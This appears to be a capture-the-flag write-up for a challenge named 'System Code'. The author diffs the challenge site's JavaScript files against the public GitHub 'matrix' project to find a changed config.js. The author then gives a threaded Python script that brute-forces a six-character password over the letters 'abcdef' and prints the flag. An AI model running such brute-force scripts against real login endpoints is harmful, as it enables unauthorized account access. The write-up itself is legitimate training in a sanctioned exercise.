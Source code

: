 ## Name: System Code
#### Author: Truman Kain
#### Category: Misc
#### Difficulty: N/D
#### Description: Follow the white rabbit.
NOTE: Bruteforce is permitted for this challenge instance if you feel it is necessary.

## Procedure
the chall asks for a password or something like that, it sends a GET request to ```challenge.ctf.games:30984/enter=test``` it returns the msg ```Incorrect. You will receive the flag with the correct input.```.

I was trying with ```rockyou.txt``` file and sending some sqli payloads,etc but no luck, since we dont have the source code i was checking the website code with inpect option from the browser.

The website has a the following url in the source code ```https://github.com/Rezmason/matrix```, this is a github project with the matrix theme. but it also has some interesting files path.

I was using that files path as reference to check in the challenges website, i was stuck  :|

After a hint, i downloaded the github project with ```git clone https://github.com/Rezmason/matrix.git``` and then enumerate every single file with the command ```find . -name "*" 2>/dev/null | sed -e 's,\./,,g' | grep ".js" > files.txt```.

Now i wrote the following python code to do a cmp with the chall website and see if there is a diff file in the website.
```
import requests

files = open("matrix/files.txt","r").read()

chall_url="http://challenge.ctf.games:30984/"
github_url="https://raw.githubusercontent.com/Rezmason/matrix/refs/heads/master/"

for x in files.split("\n"):
    if x:
        res1 = requests.get(chall_url + x)
        res2 = requests.get(github_url + x)

        if len(res1.text) != len(res2.text):
            print(f"file: {x} [{len(res1.text)}] [{len(res2.text)}]")
```

![image](https://github.com/user-attachments/assets/7ce9d760-d952-4ad5-a667-e02a46ac53e8)

We have detected the file ``` js/config.js```, the chall says ```Follow the white rabbit.```, ```twr```, if you looking for ```twr``` in ```js/config.js``` u will see  ``` backupGlyphsTwr: ["a", "b", "c", "d", "e", "f"], ```

from here u can use ```abcdef``` to create ur wordlist and do a bruteforce with burpsuite or maybe doing ur own script. here is my python script.

```
import requests
from itertools import product
from concurrent.futures import ThreadPoolExecutor, as_completed

characters = "abcdef"
wordlist = [''.join(p) for length in range(6, 7) for p in product(characters, repeat=length)]
chall_url = "http://challenge.ctf.games:30984/enter="

def test_password(password):
    try:
        res = requests.get(chall_url + password)
        print(f"testing pass:{password}",end="\r")
        if "flag{" in res.text:
            print(f"\nPassword: {password}\n{res.text}")
            return True
    except:
        pass
    return False

with ThreadPoolExecutor(max_workers=20) as executor:
    futures = [executor.submit(test_password, word) for word in wordlist]
    for future in as_completed(futures):
        if future.result():
            break
```
![image](https://github.com/user-attachments/assets/38911616-9cf3-4d6a-9d98-527f660c2db4)


flag ```flag{dc9edf4624504202eec5d3fab10bbccd}```

